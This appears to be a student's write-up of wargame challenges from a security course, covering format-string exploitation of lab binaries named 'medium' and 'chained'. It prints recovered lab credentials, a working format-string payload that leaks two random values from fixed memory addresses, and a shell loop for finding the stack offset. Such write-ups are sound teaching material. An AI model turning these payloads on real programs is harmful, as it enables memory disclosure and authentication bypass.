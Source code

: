username: COMP6447_SUPER_SECRET_ADMIN

password: TOPSECRETPASSWORD

Can also get address from observing stcmp call using objdump -d medium

### Wargame 3: Chained

From running this program, I figured out that two random variables generated would be stored somewhere, whose sum is then computed to check for a sum match from the user. Using the same method as before, I found the variables random1 at 0x0804a080 and random2 at 0x0804a088, and an offset of 13 bytes when brute forcing one of the variables. From this, I crafted the command `(python -c 'print "\x80\xa0\x04\x08\x88\xa0\x04\x08%13$s %14$s"' && cat) | ./chained`, using `&& cat` to make the process interactive and prevent it from exiting after piping input into it ([source](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive/5852578#5852578)). I then manually added the numbers together and got the flag ENROL_IN_COMP6447.





Find offset without Python:

`for i in $(seq 1 30); do echo "Offset $1"; echo "AAAA%$i"'$x' | ./medium; done | grep 41 -C 2`





